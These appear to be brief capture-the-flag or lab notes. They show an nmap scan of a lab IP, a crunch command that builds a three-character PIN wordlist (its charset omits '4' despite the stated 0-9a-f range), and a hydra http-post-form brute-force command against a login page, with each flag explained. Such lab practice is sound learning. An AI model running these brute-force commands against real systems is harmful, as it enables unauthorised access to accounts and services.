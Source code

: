 nmap 10.10.152.38 // port 22,8000 open
10.10.152.38:8000 -->> /login.php/pin
pin input :0123456789abcdef //3 min // 3 max

crunch 3 3 012356789abcdef -o 3digits.txt //creating list of password 16*16*16

hydra -l '' -P 3digits.txt -f -v 10.10.152.38 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000 // brute force : details 
-l '' indicates that the login name is blank as the security lock only requires a password
-P 3digits.txt specifies the password file to use
-f stops Hydra after finding a working password
-v provides verbose output and is helpful for catching errors
10.10.152.38 is the IP address of the target
http-post-form specifies the HTTP method to use
"/login.php:pin=^PASS^:Access denied" has three parts separated by :
/login.php is the page where the PIN code is submitted
pin=^PASS^ will replace ^PASS^ with values from the password list
Access denied indicates that invalid passwords will lead to a page that contains the text “Access denied”
-s 8000 indicates the port number on the target
